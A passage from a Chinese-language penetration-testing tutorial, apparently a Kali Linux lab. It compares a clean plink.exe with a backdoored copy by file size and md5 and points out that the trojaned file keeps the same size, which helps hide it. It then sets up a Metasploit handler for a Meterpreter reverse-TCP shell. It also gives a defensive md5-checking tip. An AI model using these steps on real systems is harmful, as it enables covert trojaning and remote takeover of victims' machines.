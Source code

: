 通过 `ls -l` 命令对比正常程序和木马程序两者之间的大小，在命令行终端中输入如下命令：

```
# 对比正常程序和木马程序两者之间的大小

# 查看原本正常程序的大小
ls -l /usr/share/windows-binaries/plink.exe 

# 查看植入正常程序的木马程序大小
ls -l backdoored/plink.exe
```
![图片描述](../imgs/1482895030653.png-wm.png)

由上面的 ls 可以发现植入木马后，程序大小并未发生变化，这对于隐藏木马是非常有利的。接着我们使用工具 `md5sum` 可以对两个程序的前后结构进行对比，查看是否已经改变。

**小窍门：在平常的网络软件下载过程中，可以使用下载软件的 md5 和官网正版软件的 md5 进行对比，如果两个软件的 md5 不一样，则可能存在被植入了木马的风险**：

```
# 查看原本程序的 md5
md5sum /usr/share/windows-binaries/plink.exe 

# 查看生成的木马文件的 md5
md5sum backdoored/plink.exe
```
![图片描述](../imgs/1482894865550.png-wm.png)


接着将开启 `msfconsole`，并且使用相关模块进行监听。在 Kali Linux 命令行终端中输入命令：

```
# 开启 msfconsole 用以监听
msfconsole

# 使用相应的攻击模块
# 设置攻击者的本地主机 ip 地址
# 设置攻击者的本地主机侦听的端口
# 输入攻击命令

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.122.101
msf > set lport 4444
msf > exploit
```